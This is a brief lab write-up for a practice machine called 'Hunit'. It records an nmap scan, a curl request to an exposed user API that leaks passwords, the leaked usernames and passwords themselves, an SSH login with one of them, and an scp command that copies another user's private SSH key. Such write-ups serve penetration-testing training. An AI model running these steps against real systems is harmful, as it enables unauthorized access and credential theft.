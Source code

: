 # Hunit
# date 8/8/2023
# ip 192.168.217.125


# nmap

sudo nmap   192.168.79.125 -p- -sS -sV

Not shown: 65531 filtered ports
PORT      STATE SERVICE    VERSION
8080/tcp  open  http-proxy
12445/tcp open  unknown
18030/tcp open  http       Apache httpd 2.4.46 ((Unix))
43022/tcp open  ssh        OpenSSH 8.4 (protocol 2.0)

# 192.168.217.125:8080

Checking the source page for any haiku reveals a comment refer to API.
<a href="http://localhost:8080/api/">List all</a>

http://192.168.217.125:8080/api/


curl http://1192.168.217.125:8080/api/

Runnining curl against the user API directory reveals sensitive information regarding each user.

curl http://192.168.217.125:8080/api/user/


# Compiling the passwords and login names of each provides us with a users and password list.

Users
 rjackson
 dademola
 jvargas
 jsanchez

Pass
 yYJcgYqszv4aGQ
 ExplainSlowQuest110
 KTuGcSW6Zxwd0Q
 d52cQ1BzyNQycg
 OuQ96hcgiM5o9w

 Inspecting our found information further we find that all the users are 'Editors' and David is a admin. The password associated with David is also greatly different from the rest. I then tried a manual login with SSH.

ssh -p 43022 dademola@192.168.217.125

 Valid credentials: dademola:ExplainSlowQuest110

 # priv esc
 Looking for other users in /home/ we see we have the Git user. Checking contents of the directory we also have a id_rsa key.


 scp -P 43022 dademola@192.168.217.125:/home/git/.ssh/id_rsa